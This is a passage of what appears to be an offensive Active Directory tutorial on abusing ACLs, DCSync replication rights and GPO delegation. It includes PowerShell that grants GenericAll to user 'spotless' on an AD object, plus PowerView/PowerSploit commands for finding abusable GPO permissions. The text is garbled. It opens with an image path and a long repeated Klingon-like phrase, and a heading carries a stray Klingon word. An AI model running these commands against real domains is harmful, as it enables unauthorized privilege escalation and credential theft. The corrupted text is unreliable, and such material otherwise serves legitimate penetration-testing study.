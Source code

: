 'oH 'e' vItlhutlh 'ej 'oH 'e' vItlhutlh 'ej 'oH 'e' vItlhutlh 'ej 'oH 'e' vItlhutlh 'ej 'oH 'e' vItlhutlh 'ej 'oH 'e' vItlhutlh 'ej 'oH 'e' vItlhutlh 'ej 'oH 'e' vItlhutlh 'ej 'oH 'e' vItlhutlh 'ej 'oH 'e' vItlhutlh 'ej 'oH 'e' vItlhutlh 'ej 'oH 'e' vItlhutlh 'ej 'oH 'e' vItlhutlh 'ej 'oH 'e' vItlhutlh 'ej 'oH 'e' vItlhutlh 'ej 'oH 'e' vItlhutlh 'ej 'oH 'e' vItlhutlh 'ej 'oH 'e' vItlhutlh 'ej 'oH 'e' vItlhutlh 'ej 'oH 'e' vItlhutlh 'ej 'oH 'e' vItlhutlh 'ej 'oH 'e' vItlhutlh 'ej 'oH 'e' vItlhutlh 'ej 'oH 'e' vItlhutlh 'ej 'oH 'e' vItlhutlh 'ej
```powershell
$ADSI = [ADSI]"LDAP://CN=test,CN=Users,DC=offense,DC=local"
$IdentityReference = (New-Object System.Security.Principal.NTAccount("spotless")).Translate([System.Security.Principal.SecurityIdentifier])
$ACE = New-Object System.DirectoryServices.ActiveDirectoryAccessRule $IdentityReference,"GenericAll","Allow"
$ADSI.psbase.ObjectSecurity.SetAccessRule($ACE)
$ADSI.psbase.commitchanges()
```
## **Qa'Hom Replication on the Domain (DCSync)**
The DCSync attack leverages specific replication permissions on the domain to mimic a Domain Controller and synchronize data, including user credentials. This powerful technique requires permissions like `DS-Replication-Get-Changes`, allowing attackers to extract sensitive information from the AD environment without direct access to a Domain Controller.
[**Learn more about the DCSync attack here.**](../dcsync.md)







## GPO Delegation <a href="#gpo-delegation" id="gpo-delegation"></a>

### GPO Delegation

Delegated access to manage Group Policy Objects (GPOs) can present significant security risks. For instance, if a user such as `offense\spotless` is delegated GPO management rights, they may have privileges like **WriteProperty**, **WriteDacl**, and **WriteOwner**. These permissions can be abused for malicious purposes, as identified using PowerView:
```bash
Get-ObjectAcl -ResolveGUIDs | ? {$_.IdentityReference -eq "OFFENSE\spotless"}
```

### Enumerate GPO Permissions

To identify misconfigured GPOs, PowerSploit's cmdlets can be chained together. This allows for the discovery of GPOs that a specific user has permissions to manage:
```powershell
Get-NetGPO | %{Get-ObjectAcl -ResolveGUIDs -Name $_.Name} | ? {$_.IdentityReference -eq "OFFENSE\spotless"}
```

**Computers with a Given Policy Applied**: It's possible to resolve which computers a specific GPO applies to, helping understand the scope of potential impact.
```powershell
Get-NetOU -GUID "{DDC640FF-634A-4442-BC2E-C05EED132F0C}" | % {Get-NetComputer -ADSpath $_}
```
